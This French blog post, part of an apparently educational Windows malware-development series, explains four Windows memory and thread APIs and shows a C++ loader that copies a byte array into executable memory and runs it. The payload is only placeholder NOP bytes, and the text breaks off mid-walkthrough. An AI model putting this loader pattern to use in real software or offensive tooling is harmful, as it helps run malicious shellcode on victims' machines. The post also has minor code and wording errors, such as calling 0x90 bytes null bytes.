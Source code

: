 # Le développement de malwares sous Windows à des fins éducationelles 

Après le post introductif, il est temps d'entamer cette série sur le maldev ensemble, en concevant un simple programme en C++ exécutant un payload via l'utilisation de fonctions faisant partie de l'API Windows.

>Je n'incluerai volontairement aucun payload précis dans ce post, partant du principe que le lecteur n'est pas un script kiddie et est à même de se débrouiller à ce niveau là.

Le programme suit une logique très simple, à commencer par l'inclusion dans le programme d'un payload sous la forme d'un array de bytes (j'aurai pu dire "tableau d'octets" mais soyons honnêtes, ça ne sonne pas terrible), et l'exécution de quatre fonctions clés:

*	VirtualAlloc : qui nous servira à réserver de l'bloc mémoire, de la taille de notre payload
*	RtlMoveMemory: qui bouger notre payload dans l'bloc mémoire préalablement réservé
*	VirtualProtect: afin de changer les permissions sur la zone mémoire allouée afin de permettre l'exécution
*	CreateThread: qui, enfin, créera un thread servant à l'exécution du payload contenu dans l'bloc mémoire préalablement réservé


Jetons un oeil auxdites fonctions une par une :

## Les fonctions utilisées

### VirtualAlloc

Définie dans la documentation Microsoft comme ceci : 

```cpp
LPVOID VirtualAlloc(
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
);
```

Cette fonction sert à réserver un bloc mémoire, et prend quatre paramètres:

*	lpAddress, un pointeur (optionel) servant à indiquer l'addresse exacte où nous souhaitons réserver bloc mémoire. Si nul, alors la fonction se chargera elle-même du choix.
*	dwSize, un integer servant à indiquer la taille totale de bloc réservé
*	flAllocationType, un DWORD désignant le type d'allocation mémoire. Par exemple, "MEM_RESERVE" (nom assez explicite) pour réserver un bloc mémoire dans le processus.
*	flProtect, un DWORD servant à indiquer la protection mémoire assignée à notre bloc mémoire. Exemple : la protection mémoire "PAGE_EXECUTE_READ" sert de factio à y assigner les permissions "lecture" et "exécution".

### RtlMoveMemory

Définie dans la documentation Microsoft comme ceci : 

```cpp
VOID RtlMoveMemory(
  _Out_       VOID UNALIGNED *Destination,
  _In_  const VOID UNALIGNED *Source,
  _In_        SIZE_T         Length
);
```

Cette fonction sert à copier le contenu d'un bloc mémoire vers un autre, et prend trois paramètres:

*	\*Destination, un pointeur vers le bloc mémoire de destination vers lequel nos octets/bytes seront copiés
*	\*Source, un pointeur vers le bloc mémoire source en provenance duquel seront copiés nos octets/bytes
*	Length, un integer désignant le nombre d'octets/bytes à copier de la source à la destination

### VirtualProtect

Définie dans la documentation Microsoft comme ceci :

```cpp
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

Cette fonction sert à changer les les protections mémoires d'un bloc mémoire préalablement réservé, et prend quatre paramètres:

*	lpAddress, un pointeur vers le bloc mémoire ciblé
*	dwSize, un integer désignant la taille du bloc mémoire ciblé
*	flNewProtect, un DWORD indiquant la nouvelle protection mémoire assignée à notre bloc
*	lpflOldProtect, un pointeur indiquant l'ancienne protection mémoire (par valeur) assignée à notre bloc

## CreateThread

Définie dans la documentation Microsoft comme ceci :

```cpp
HANDLE CreateThread(
  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  [in]            SIZE_T                  dwStackSize,
  [in]            LPTHREAD_START_ROUTINE  lpStartAddress,
  [in, optional]  __drv_aliasesMem LPVOID lpParameter,
  [in]            DWORD                   dwCreationFlags,
  [out, optional] LPDWORD                 lpThreadId
);
```

Cette fonction sert à créer un thread d'exécution pour le processus actuel, et prend six paramètres :

*	lpThreadAttributes, un pointeur (optionel) indiquant si la HANDLE retournée par notre fonction peut être héritée par des processus enfants : dans notre cas, peu d'importance.
*	dwStackSize, un integer servant à initialiser la taille de la stack mémoire du thread. Si nul, le thread s'en charge automatiquement
*	lpStartAddress, un pointeur vers le contenu à exécuter (pour faire court)
*	lpParameter, un pointeur (optionel) vers de potentielles variables passées au thread
*	dwCreationFlags, un DWORD désignant les flags relatifs à la création du thread. Exemple : 0x00000004 créera le thread dans un état suspendu, ne pouvant être exécuté qu'en appellant la fonction ResumeThread
*	lpThreadId, un pointeur (optionel) vers une variable recevant l'ID du thread. Inutile dans notre cas


## Le code

Ces quatre fonctions définies, place au code en lui même. 

> Pour ce qui touche aux chaînes de caractères, je n'utiliserai en général que les types que ceux conçus pour l'UTF16-LE, le type de caractères natif sur les systèmes d'exploitation Windows ; devoir caler des casts et des "L" à droite à gauche dans la moitié de mes programmes m'a un peu fatigué.


```cpp
#include <stdio.h>
#include <windows.h>



int main() {

	wchar_t payload[] = {0x90,0x90,0x90,0x90};
	unsigned int payloadlen = sizeof(payload);

	void* buffer;
	HANDLE hThread;
	DWORD exProtection = 0;
	bool retValue;

	buffer = VirtualAlloc(0,payloadlen,MEM_RESERVE | MEM_COMMIT,PAGE_READWRITE);
	RtlMoveMemory(buffer,payload,payloadlen);
	retValue =VirtualProtect(buffer, payloadlen, PAGE_EXECUTE_READ, &exProtection);

	if (retValue != 0) {

		hThread = CreateThread(0,0,(LPTHREAD_START_ROUTINE)buffer,0,0,0);
		WaitForSingleObject(hThread, 500);


	}

	return 0;
}
```

Le lecteur notera qu'avant l'exécution du quatuor de fonctions susmentionnées, je déclare certaines variables particulières.

*	_payload_, un array de bytes (nullbytes dans notre cas), et l'integer _payloadlen_, sa taille exprimée par le biais de la fonction _sizeof()_
*	_buffer_, un pointeur (vide lors de sa déclaration) vers le futur espace mémoire qui accueillera notre payload
*	_hThread_, une handle qui pointera vers l'object de type Thread retourné par la fonction _CreateThread()_
*	_exProtection_, un DWORD à la valeur de 0 qui nous servira plus tard
*	_retValue_, un booléen qui prendra la valeur de retour de la fonction _VirtualProtect()_

Et j'exécute enfin nos quatre fonctions :

### VirtualAlloc

```cpp
buffer = VirtualAlloc(0,payloadlen,MEM_RESERVE | MEM_COMMIT,PAGE_READWRITE);
```

